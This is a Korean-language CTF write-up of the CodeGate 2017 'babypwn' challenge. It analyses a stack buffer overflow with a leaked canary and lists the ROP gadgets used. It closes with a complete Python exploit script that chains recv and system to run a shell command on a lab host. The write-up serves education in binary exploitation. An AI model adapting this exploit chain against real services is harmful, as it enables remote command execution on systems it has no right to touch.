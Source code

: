 # babypwn
### CodeGate 2017
***babypwn은 코드게이트 2017 예선에 출제된 문제입니다.***

babypwn을 처음 실행하면, 아래 그림과 같이 CodeGate!라는 말과 함께 3가지의 선택지가 나옵니다.

![Alt text](https://github.com/Funniest/System-study/blob/master/babypwn/img/Stack.PNG)

여기서 취약한 곳을 정리하여 보겠습니다. (위, 아래 그림 참조)

![Alt text](https://github.com/Funniest/System-study/blob/master/babypwn/img/Vuln.PNG)

sub esp, 50 -> 0x50만큼 버퍼 생성

[ebp+var_34] -> 입력 버퍼

[ebp+var_c] -> 더미(?)

Stack_check가 있는 것으로 보아 더미 중간에canary(4byte)가 존재

취약한 함수 = call sub_8048907

buf의 크기는 총 0x34(52) + SFP = (56)인데, 입력은 0x64(100)만큼 받습니다.

└ recv(fd, buf, 0x64, 0)

즉 오버플로우가 일어나게 됩니다.

이제 익스플로잇에 필요한 가젯들을 정리해 보면,
```
1. Canary 카나리
2. recv_plt, recv_got
3. ppppr
4. system_plt -> system함수가 프로그램 내부에 있어서 구지 leak할 필요가 없습니다
5. ppppr
6. bss영역
```
이 필요합니다.

익스플로잇 순서는
```
1. canary를 leak합니다.
2. 익스플로잇에 필요한 가젯들을 구합니다.
3. 구한 가젯들을 조합해서 페이로드를 작성합니다.
     └ recv_plt를 이용하여 bss영역에 실행하고 싶은 명령어를 씁니다.
     └ system_plt에 bss영역을 인자를 주어 명령어를 실행합니다.
```

### 소스코드
Ubuntu 16 LTS 32bit 환경에서 테스팅 해보았습니다.

```
from socket import *
from struct import *
from time import *

p = lambda x: pack("<L", x)
up = lambda x : unpack("<L", x)[0]

def sendline(s, string) :
    s.send(string + '\n')

s = socket(AF_INET, SOCK_STREAM)
s.connect(('192.168.228.138', 8181))

print "[+]step01 get canary"
print s.recv(2048)

sendline(s, '1')
print s.recv(1024)

'''
#canary
payload = ''
payload += 'A' * 41 #buffer[40] + canary[1] <= 0x00
s.send(payload)

print s.recv(1024)
print s.recv(41)
canary = "\x00"
canary += s.recv(3)
canary = up(canary)

print "Canary : " + str(hex(canary))
'''

canary = 0x12e5ca00
send_plt = 0x8048700
send_got = 0x804B064
recv_plt = 0x80486E0
recv_got = 0x804B05C
bss = 0x804b1b4
ppppr = 0x8048eec
system_plt = 0x8048620

cmd = 'ls -al'

payload = ''
payload += 'A' * 40
payload += p(canary)
payload += 'B' * 12

payload += p(recv_plt)
payload += p(ppppr)
payload += p(0x04)
payload += p(bss)
payload += p(len(cmd))
payload += p(0x00)
payload += p(system_plt)
payload += p(0x41414141)
payload += p(bss)

s.send(payload)

print s.recv(1024)
sendline(s, '3')

sendline(s, cmd)
print s.recv(1024)
s.close()
```
